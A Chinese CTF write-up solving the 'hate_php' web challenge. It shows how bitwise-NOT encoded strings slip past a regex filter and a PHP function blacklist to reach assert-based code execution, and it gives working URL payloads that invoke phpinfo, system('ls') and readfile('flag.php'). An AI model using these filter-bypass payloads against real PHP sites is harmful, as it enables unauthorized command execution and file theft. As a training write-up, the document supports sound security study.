

### 题目名称：hate_php

题目来源：CTFHub（原题：2020-第五空间智能安全大赛-Web-hate-php）

题目类别：Web

题目描述：



### 解题思路

题目直接给源码，参数是 code，一共两道过滤，最后 assert 执行。

第一道是正则，拦掉 f、l、a、g、p、h 这几个字母，还有点、斜杠、分号、引号、反引号、竖线、方括号、下划线、等号。第二道更狠，把 PHP 所有内置函数名都放进黑名单，只要 payload 里出现任何函数名就 die。

这两道一起，等于常规的读文件写法全废：flag.php 里含 f、l、a、g 和点，写不进去；system、readfile 这些函数名会被第二道拦。但正则里没有拦 `~`、`(`、`)` 和 `%`，所以可以用取反把函数名和参数藏起来，让黑名单看到的东西里一个字母都没有。

PHP 7 里 `(表达式)(参数)` 这种写法是合法的，所以只要把函数名算成字符串，外面套一对括号就能调用。

### 详细步骤

1. 访问页面，没传 code 时 highlight_file 直接把源码打出来

2. 分析两道过滤

    ```
    第一道：拦 f l a g p h . / ; ' " ` | [ ] _ =
    第二道：拦所有内置函数名
    ```

    试着传 f、l、a、g、p、h 都会回 You are too good for me，传 system 会回 You deserve better

3. 用取反把函数名藏起来。先本地算一下

    ```php
    <?php
    echo urlencode(~"readfile");
    echo urlencode(~"flag.php");
    ?>
    ```

    ```
    readfile  →  %8D%9A%9E%9B%99%96%93%9A
    flag.php  →  %99%93%9E%98%D1%8F%97%8F
    ```

    这些 %XX 解码后是高位字节，黑名单里没有任何一个字母能匹配上

4. 先用 phpinfo 验证这条链通不通

    ```
    ?code=(~%8F%97%8F%96%91%99%90)()
    ```

    页面回显了完整的 phpinfo，说明 `(表达式)()` 调用成立，取反也确实还原成了 phpinfo

5. 用 system 列一下当前目录

    ```
    ?code=(~%8C%86%8C%8B%9A%92)(~%93%8C)
    ```

    回显 flag.php index.php

6. 用 readfile 直接把 flag.php 读出来

    ```
    ?code=(~%8D%9A%9E%9B%99%96%93%9A)(~%99%93%9E%98%D1%8F%97%8F)
    ```

    页面返回 ctfhub{922987f32eeee3a193975940}，获得flag

### Payload

```
?code=(~%8D%9A%9E%9B%99%96%93%9A)(~%99%93%9E%98%D1%8F%97%8F)
```

### flag

ctfhub{922987f32eeee3a193975940}

### 总结&反思
